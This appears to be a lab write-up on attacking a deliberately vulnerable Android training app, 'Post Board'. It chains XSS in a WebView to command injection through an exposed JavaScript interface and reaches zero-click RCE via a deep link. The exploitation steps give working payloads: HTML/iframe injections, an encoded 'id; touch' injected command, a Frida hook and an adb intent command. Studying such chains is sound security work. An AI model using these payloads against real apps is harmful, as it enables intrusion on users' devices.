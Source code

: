 # Analysis
1. We open the `MainActivity` and found the application is called `setupWebView` and `handleIntent`.
    ![MainActivity](images/main%20activity.png)

2. Function `setupWebView` it's add Javascript Interface using class `WebAppInterface`, which allowed user to call function inside class `WebAppInterface` from webview.

    ![setupWebView](images/setupwebview.png)

3. Function `handleIntent` is required intent with action "android.intent.action.VIEW" and scheme equals to "postboard" and the host is equals to "postmessage" and it get the path that later base64 decoded and will replace `'` with an empty string. Which we can say that we need to input our message as path and base64 encoded, later will used to call function `postMarkdownMessage` in class `WebAppInterface`.
    ![handleIntent](images/handleIntent.png)

4. Class `WebAppInterface` handled our message in current stated and not saved.
    ![WebAppInterface](images/webAppInterface.png)

5. Function `postMarkdownMessage` is handle message that we input from the app.
    ![postMarkdownMessage](images/postMarkdownMessage.png)

6. Function `postCowsayMessage` is call function `runCowsay` inside class `CowsayUtil`.
    ![postCowsayMessage](images/postCowsayMessage.png)

7. Function `runCowsay` is execute command system that vulnlerable to command injection and allow user to execute malicious command, because the user able to escape the command execution.
    ![runCowsay](images/runCowsay%20vuln%20code.png)

8. The function `postMarkdownMessage` and `clearCache` from class `WebAppInterface` is being called inside `assets/index.html`, but vulnerable function is only called by function `postCowsayMessage` and this function is not called in webview.
    ![indexhtml](images/index%20html.png)

9. Based on our analysis, we need to find a way to achieve Cross-Site Scripting within the WebView and invoke the postCowsayMessage function with the precise argument to gained RCE.

# Exploitation

1. Run the application, and input `<h1>testing</h1>`.

    ![enum input](images/test%20input1%20result.png)

2. We used chrome inspect for debugging by access `chrome:inspect#devices` in chrome browser and inspect the webview in `com.mobilehackinglab.postboard`.

    ![chrome debug](images/chrome%20inspect%20debug.png)
    ![chrome inspect](images/test%20input1%20result%20debug.png)

3. We able to do html injection, now we try to call `console.log` from html injection with tag "button".
    ```html
    <button onclick=console.log(1337)>HTML Injection</button>
    ```
    ![console log](images/console%20log.png)
    ![console log inspect](images/console%20log%20result.png)
    ![console log debug](images/console%20log%20result%20debug.png)

4. We able to Cross-Site Scripting, now need to call `postCowsayMessage` from Cross-Site Scripting, but the `postCowsayMessage` is not called in the html, but we know the java function interface is being called with `window.WebAppInterface.<function name>`, we can check this with chrome debug console.
    ![chrome console WebAppInterface](images/webappinterface%20function%20console.png)

5. We know function `postCowsayMessage` is possible to be called, we can use `window.WebAppInterface.postCowsayMessage` to called it, update the tag button to call this function when we pressed it.
    ```html
    <button onclick=window.WebAppInterface.postCowsayMessage() >HTML Injection</button>
    ```

6. To check our argument that being used to call `runCowsay`, we make frida hook function and print out the argument.
    ```js
    Java.perform(() => {
    
        let WebAppInterface = Java.use("com.mobilehackinglab.postboard.WebAppInterface");
        WebAppInterface["postMarkdownMessage"].implementation = function (markdownMessage) {
            console.log(`WebAppInterface.postMarkdownMessage is called: markdownMessage=${markdownMessage}`);
            this["postMarkdownMessage"](markdownMessage);
        };
    
        WebAppInterface["postCowsayMessage"].implementation = function (cowsayMessage) {
            console.log(`WebAppInterface.postCowsayMessage is called: cowsayMessage=${cowsayMessage}`);
            this["postCowsayMessage"](cowsayMessage);
        };
    
        let Companion = Java.use("CowsayUtil$Companion");
        Companion["runCowsay"].implementation = function (message) {
            console.log(`Companion.runCowsay is called: message=${message}`);
            let result = this["runCowsay"](message);
            console.log(`Companion.runCowsay result=${result}`);
            return result;
        };
    })
    ```

7. Now we used tag `iframe` to make it load the `postCowsayMessage` without any interaction and add argument also to escape the command execution, to execute our malicious command.
    ```html
    <iframe onload=window.WebAppInterface.postCowsayMessage("test; touch /data/data/com.mobilehackinglab.postboard/files/rce.txt") />
    ```

8. The frida script is only called function `postMarkdownMessage` and not called `cowsayMessage` or `runCowsay` and we check in chrome debug, our payload is got escaped by space.
    ![postCowsayMessage called](images/fail%20iframe%20command1.png)
    ![postCowsayMessage debug](images/fail%20iframe%20command1%20reason.png)

9. Then we also try to base64 encoded the argument.
    ```html
    <iframe onload=window.WebAppInterface.postCowsayMessage(atob("aWQ7IHRvdWNoIC9kYXRhL2RhdGEvY29tLm1vYmlsZWhhY2tpbmdsYWIucG9zdGJvYXJkL2ZpbGVzL3JjZS50eHQgIw==")) />
    ```

    ![success iframe 1](images/iframe%20command2.png)
    ![success rce1](images/success%20rce1.png)

10. We successfully doing command injection, now we can used `am` to trigger `Intent` to make it zero-click or no interaction at all in the vulnerable app.
    ![python code](images/generate%20am%20payload.png)
    ```sh
    adb shell am start -a android.intent.action.VIEW -d "postboard://postmessage/PGlmcmFtZSBvbmxvYWQ9d2luZG93LldlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZShhdG9iKCJhV1E3SUhSdmRXTm9JQzlrWVhSaEwyUmhkR0V2WTI5dExtMXZZbWxzWldoaFkydHBibWRzWVdJdWNHOXpkR0p2WVhKa0wyWnBiR1Z6TDJsdVpYSnphVzRnSXc9PSIpKSAvPg=="
    ```
    ![success rce 2](images/success%20rce2%20zero-click.png)

11. We successfully gained RCE.

    ![success rce zero-click](images/success%20rce2%20zero-click%20result.png)
